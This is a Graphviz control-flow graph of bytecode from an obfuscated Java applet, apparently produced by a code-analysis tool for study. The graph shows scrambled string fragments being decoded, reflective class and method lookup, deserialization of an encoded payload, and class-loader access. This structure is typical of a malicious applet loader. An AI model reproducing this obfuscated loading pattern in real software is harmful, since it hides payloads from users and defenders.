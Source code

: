 digraph "" {
    "r0 := @this: MyApplet"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"
    "r0 := @this: MyApplet"->"staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>";
    "store.r $r105"
    "staticinvoke <Boeiur8knBoei: java.lang.String joeirnbTeonxso()>"->"store.r $r105";
    "push \"%\""
    "store.r $r105"->"push \"%\"";
    "push \"j\""
    "push \"%\""->"push \"j\"";
    "push \"*Q*\""
    "push \"j\""->"push \"*Q*\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"*Q*\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r45"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r45";
    "push \"b;\""
    "store.r r45"->"push \"b;\"";
    "push \"b;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"w\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"!\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"!\"";
    "push \"!\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r46"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r46";
    "store.r r46"->"push \"%\"";
    "push \"@k\""
    "push \"%\""->"push \"@k\"";
    "push \"@k\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Y@\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Y@\"";
    "push \"Y@\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"b\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"b\"";
    "push \"b\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r47"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r47";
    "push \"2\""
    "store.r r47"->"push \"2\"";
    "push \"2\""->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"p\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Y;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Y;\"";
    "push \"Y;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r48"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r48";
    "push \"%*\""
    "store.r r48"->"push \"%*\"";
    "push \";k(\""
    "push \"%*\""->"push \";k(\"";
    "push \";k(\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"w\"";
    "push \"w\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r49"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r49";
    "push \"@%\""
    "store.r r49"->"push \"@%\"";
    "push \"5\""
    "push \"@%\""->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";k\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";k\"";
    "push \";k\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r50"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r50";
    "push \"(w\""
    "store.r r50"->"push \"(w\"";
    "push \"@~p\""
    "push \"(w\""->"push \"@~p\"";
    "push \"@~p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r51"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r51";
    "push \"X\""
    "store.r r51"->"push \"X\"";
    "push \"X\""->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"2\"";
    "push \"2\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"pY\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"pY\"";
    "push \"pY\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r52"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r52";
    "push \"@\""
    "store.r r52"->"push \"@\"";
    "push \"p52\""
    "push \"@\""->"push \"p52\"";
    "push \"p52\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r53"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r53";
    "store.r r53"->"push \"2\"";
    "push \"*\""
    "push \"2\""->"push \"*\"";
    "push \"*\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"O\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"O\"";
    "push \"O\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r54"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r54";
    "push \"W\""
    "store.r r54"->"push \"W\"";
    "push \"l\""
    "push \"W\""->"push \"l\"";
    "push \"l\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"`W\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"`W\"";
    "push \"`W\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r55"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r55";
    "push \"h\""
    "store.r r55"->"push \"h\"";
    "push \"7l\""
    "push \"h\""->"push \"7l\"";
    "push \"7l\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"H\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"H\"";
    "push \"H\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r56"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r56";
    "push \";&h\""
    "store.r r56"->"push \";&h\"";
    "push \"v\""
    "push \";&h\""->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r57"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r57";
    "push \"9\""
    "store.r r57"->"push \"9\"";
    "push \"p;7\""
    "push \"9\""->"push \"p;7\"";
    "push \"p;7\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r59"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r59";
    "push \"k]\""
    "store.r r59"->"push \"k]\"";
    "push \"p{\""
    "push \"k]\""->"push \"p{\"";
    "push \"p{\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r60"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r60";
    "push \"j*Q*\""
    "store.r r60"->"push \"j*Q*\"";
    "store.r r62"
    "push \"j*Q*\""->"store.r r62";
    "goto goto goto goto push \"Z\""
    "store.r r62"->"goto goto goto goto push \"Z\"";
    "goto goto goto push \"Z\""
    "goto goto goto goto push \"Z\""->"goto goto goto push \"Z\"";
    "goto goto push \"Z\""
    "goto goto goto push \"Z\""->"goto goto push \"Z\"";
    "goto push \"Z\""
    "goto goto push \"Z\""->"goto push \"Z\"";
    "push \"Z\""
    "goto push \"Z\""->"push \"Z\"";
    "load.r r62"
    "push \"Z\""->"load.r r62";
    "push \"%*::!p\""
    "load.r r62"->"push \"%*::!p\"";
    "push \"%*::!p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";%5:\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";%5:\"";
    "push \";%5:\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \":!p;\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \":!p;\"";
    "push \":!p;\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "load.r r59"
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"load.r r59";
    "load.r r60"
    "load.r r59"->"load.r r60";
    "load.r r60"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"*Zp\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"*Zp\"";
    "push \"*Zp\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "push 0"
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"
    "newarray"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "load.r r0"
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"newarray";
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"
    "newarray"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"virtualinvoke <java.lang.Object: java.lang.String toString()>";
    "virtualinvoke <java.lang.Object: java.lang.String toString()>"->"store.r r59";
    "new java.io.ObjectInputStream"
    "store.r r59"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "load.r $r105"
    "dup1.r"->"load.r $r105";
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"
    "load.r $r105"->"staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <EtoPukIliMagicLu1Raz: byte[] boqeisnqiw(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"dup1.r";
    "push 5"
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r105";
    "store.r $r105"->"load.r $r105";
    "load.r $r105"->"push 0";
    "push 0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.Class: java.lang.ClassLoader getClassLoader()>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r105";
    "push 1"
    "load.r $r105"->"push 1";
    "load.r r55"
    "push 1"->"load.r r55";
    "load.r r56"
    "load.r r55"->"load.r r56";
    "load.r r56"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r57"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r57";
    "load.r r57"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v\"";
    "push \"v\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r $r105";
    "push 2"
    "load.r $r105"->"push 2";
    "push 2"->"push 0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "arrayread.r"
    "push 1"->"arrayread.r";
    "store.r r0"
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r105";
    "push 3"
    "load.r $r105"->"push 3";
    "push 3"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"store.r r0";
    "store.r r0"->"load.r $r105";
    "push 4"
    "load.r $r105"->"push 4";
    "push 4"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "load.r r45"
    "arraywrite.r"->"load.r r45";
    "load.r r46"
    "load.r r45"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r47"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r47";
    "load.r r47"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r48"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r48";
    "load.r r48"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r49"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r49";
    "load.r r49"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r50"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r50";
    "load.r r50"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r51"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r51";
    "load.r r51"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r53"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r53";
    "load.r r53"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "load.r r54"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"load.r r54";
    "load.r r54"->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>";
    "staticinvoke <java.lang.Class: java.lang.Class forName(java.lang.String)>"->"store.r r0";
    "store.r r0"->"push \"p\"";
    "push \"p\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \";\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \";\"";
    "push \";\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>";
    "staticinvoke <EtoPukIliMagicLu1Raz: java.lang.String LawOfStringPiperToe(java.lang.String)>"->"store.r r45";
    "store.r r45"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r46";
    "store.r r46"->"load.r r46";
    "load.r r46"->"push 0";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"
    "push 0"->"staticget <java.lang.Integer: java.lang.Class TYPE>";
    "staticget <java.lang.Integer: java.lang.Class TYPE>"->"arraywrite.r";
    "arraywrite.r"->"load.r r46";
    "load.r r46"->"push 1";
    "push class \"Ljava/lang/Object;\""
    "push 1"->"push class \"Ljava/lang/Object;\"";
    "push class \"Ljava/lang/Object;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"load.r r45";
    "load.r r45"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>";
    "virtualinvoke <java.lang.Class: java.lang.reflect.Method getMethod(java.lang.String,java.lang.Class[])>"->"load.r $r105";
    "load.r $r105"->"push 3";
    "push 3"->"arrayread.r";
    "arrayread.r"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"load.r $r105";
    "load.r $r105"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"push 1";
    "push 1"->"load.r $r105";
    "load.r $r105"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>";
    "pop"
    "virtualinvoke <java.lang.reflect.Method: java.lang.Object invoke(java.lang.Object,java.lang.Object[])>"->"pop";
    "pop"->"load.r $r105";
    "load.r $r105"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"checkcast";
    "checkcast"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"load.r r59";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"
    "load.r r59"->"staticinvoke <apl: void classfile(apl,java.lang.String)>";
    "goto return"
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <apl: void classfile(apl,java.lang.String)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
